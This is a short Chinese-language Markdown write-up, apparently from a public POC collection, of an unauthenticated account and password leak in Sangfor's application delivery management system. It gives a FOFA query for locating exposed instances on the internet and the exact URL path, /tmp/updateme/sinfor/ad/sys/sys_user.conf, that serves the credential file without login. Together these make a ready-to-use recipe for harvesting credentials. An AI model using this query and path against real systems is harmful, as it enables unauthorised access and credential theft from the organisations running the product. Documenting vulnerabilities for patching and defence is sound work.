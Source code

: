 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## FOFA

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251451862.png)